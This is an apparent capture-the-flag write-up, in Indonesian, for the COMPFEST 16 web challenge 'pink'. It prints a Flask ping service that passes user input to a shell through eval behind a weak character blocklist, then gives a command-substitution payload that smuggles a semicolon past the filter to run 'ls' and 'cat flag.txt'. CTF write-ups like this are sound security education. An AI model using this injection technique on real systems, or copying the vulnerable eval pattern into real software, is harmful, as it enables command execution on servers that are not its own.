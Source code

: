 # [500 pts] pink
### Category: Web Exploitation

**Deskripsi:**
> Ping your favorite IP!  
>   
> Author: k3ng  
> 
> http://challenges.ctf.compfest.id:20001

**main.py:**
```python
from flask import Flask, render_template, request
import os
import re

app = Flask(__name__)


@app.route("/", methods=["GET", "POST"])
def home():
    if request.method == "GET":
        return render_template("index.html")
    elif request.method == "POST":
        ip = request.form.get("ip")

        if re.match(r"\d{1,3}.\d{1,3}.\d{1,3}.\d{1,3}", ip) and not any(char in ip for char in [";", "|", "&", "/" "{", "}"]):
            cmd = "eval \"ping -c 4 " + ip + "\""or
            result = os.popen(cmd).read()
            return render_template("index.html", **{"data": result})
        else:
            return render_template("index.html", **{"data": "NO HACKING ALLOWED!!!! >:("})


if __name__ == "__main__":
    app.run("0.0.0.0", port=8080)
```

### Solusi:

Berdasarkan source code, website akan mengambil input yang di asumsikan sebagai suatu ip address yang akan di ping menggunakan command yang setara dengan:
```bash
eval "ping -c 4 $(ip)"
```

OS yang digunakan disini dapat diasumsikan sebagai linux karena options yang digunakan pada command 'ping' yaitu '-c'.

Pada website, input akan di filter sehingga hanya akan dianggap valid jika:  
1.) diawali dengan alamat ip address valid, dan  
2.) tidak mengandung karakter (";", "|", "&", "/" "{", "}")

Untuk meng-bypass filter dapat langsung saja dilakukan command substitution dengan menggunakan $().

Misal, target kita adalah untuk menghasilkan command:
```bash
eval "ping -c 4 0.0.0.0 ; ls"
```

Untuk meng-bypass filter karakter ';' , dapat digunakan command substitution dengan:
```bash
$(echo -e '\073')
```
**Note:** \073 adalah representasi oktal dari ';' , sedangkan opsi '-e' perlu ditulis agar bisa menghasilkan karakter dari escape sequence '\\'.

Sehingga command untuk menginjeksi 'ls' pada website akan terlihat seperti ini:
```bash
eval "ping -c 4 0.0.0.0 $(echo -e '\073') ls"
```

Karena user input hanya mempengaruhi parameter 'ip', maka untuk mendapat command tersebut hanya kita input:
```bash
0.0.0.0 $(echo -e '\073') ls
```

Hasil:

![pink](https://github.com/FieryBanana101/COMPFEST-16_TeamBaruBelajarCTF/blob/main/asset/Screenshot%202024-08-20%20232535.png)

Terlihat terdapat file 'flag.txt', langkah terakhir yaitu tinggal mengganti command 'ls' menjadi 'cat flag.txt'.
```bash
0.0.0.0 $(echo -e '\073') cat flag.txt
```

Kemudian akan didapatkan flag.

![flag](https://github.com/FieryBanana101/COMPFEST-16_TeamBaruBelajarCTF/blob/main/asset/Screenshot%202024-08-20%20232838.png)

> Flag: **COMPFEST16{bj1rrr_1njEKs1_p3rInTAH_96530087aa}**
